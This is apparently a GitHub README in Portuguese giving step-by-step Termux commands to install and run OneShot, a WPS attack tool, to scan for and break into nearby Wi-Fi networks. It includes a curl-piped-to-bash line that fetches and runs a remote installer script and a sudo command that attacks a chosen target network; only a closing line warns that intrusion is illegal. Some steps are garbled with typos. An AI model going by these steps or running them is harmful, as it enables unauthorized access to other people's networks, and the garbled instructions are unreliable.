



# Testando-Vulnerabilidade-Wifi 
Esse teste consiste em acessar versão redes wps´2>>>>> Terminal termux>>>>> 
Vamos instalar uns programas ao inicializar>>>>>> 
$ pkg update ´vamos atualizar repositório` 
vamos limpar a tela "clear" 
$ termux-change-repo 
ums nova janela irá abrir, marcar todas opções  
 
Próxima tela>>>>>>>>>>>> 
 
$ pkg upgrade 
$ pkg install git 
$pkg install python 
$pkg install python2 
Instalando pio pip fundamental para o próximo passe. 
$ pkg install --upgrade pio 
$ pkg install --upgrade pip 
Instalar a dependencias segue o git clone>>>>>>>>>> 
curl -sSf https://raw.githubusercontent.com/drygdryg/OneShot_Termux_installer/master/installer.sh | bash 
$ ls (pastas) 
cd OneShot (***preste atenção O maísculo e S maísculo***) 
$ ls 
Vamos agora chamar para rodar com sudo no python 
$ sudo python oneshot.py -l wlan0 -K   
Termux vai listar possíveis redes vulneráveis de ser hackeadas. 
 
serão numerados as conexões e escolher >>>>>>>>> alvo e irá comecar scanning....   
  
Lembra-se use para seus estudos, invasão de redes é uma violação e poderá responder pelos seus atos com a justiça. 

